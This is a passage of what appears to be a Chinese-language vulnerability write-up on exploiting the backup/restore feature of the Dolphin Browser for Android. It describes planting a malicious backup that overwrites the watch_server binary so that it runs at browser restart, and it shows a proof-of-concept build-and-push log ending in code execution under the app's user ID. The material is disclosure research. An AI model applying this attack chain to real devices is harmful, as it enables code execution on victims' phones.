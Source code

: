 可以看到，这样一来，我们就可以很轻松地在备份文件中植入恶意代码，并覆盖掉watch_server，从而达到我们的目的。但是浏览器执行watch_server的方式是什么？又是什么时候执行呢？

### 4.1 watch_server

为了弄清楚watch_server在何时被执行，我需要调用Runtime.getRuntime().exec()在浏览器中搜索服务执行时间。通过这种方式我发现每次浏览器启动时，watch_server都会被执行。

### 4.2 POC

利用这次海豚浏览器中备份与还原功能处的漏洞的最大障碍就是用户交互需求。也就是说受害者必需还原一个我们所创建的恶意备份并写入SD卡。我还没有找到通过IPC（进程间通信）或者其他方法来触发还原进程。所以目前，唯一可以利用的就是控制选择哪一个备份文件。
1. 备份文件名格式为[年:月:日:具体时间]。
1. 当你试着还原备份的时候，浏览器总是默认访问最先生成的备份。
在还原进程结束后，浏览器会快速重启，我们的payload也得以执行。

```
./build.sh

[+] Building ... [!] //构建中…

[armeabi-v7a] Install : payload =&gt; libs/armeabi-v7a/payload

[+] Creating tmp.zip and injecting payload [!]  //创建tmp.zip并注入payload

[+] Launching backup file format generation [!] //开始生成恶意备份文件

[+] Generating cipher [!]  //开始密文生成

[+] key --&gt; 95acde261f3e09d281498163958dd366  //密钥选择

[+] Building backup --&gt; ./backup.dbk [!]  //构建初始备份文件

[+] Encrypting and saving backup [!]  //加密备份文件并保存

[+] Cleaning up [!]

[+] Pushing backup.dbk to the device [!]  //将恶意备份文件传到目标设备

backup.dbk: 1 file pushed. 1.0 MB/s (13926 bytes in 0.014s)

[+] Waiting on restore process ... [!]

--------- beginning of system

--------- beginning of main

V/FlipperFlapper(14975): uid=10195(u0_a195) gid=10195(u0_a195) groups=1015(sdcard_rw),1028(sdcard_r),3003(inet),9997(everybody),50195(all_a195) context=u:r:untrusted_app:s0
```

[https://github.com/VerSprite/research/tree/master/exploits/VS-2017-001](https://github.com/VerSprite/research/tree/master/exploits/VS-2017-001)
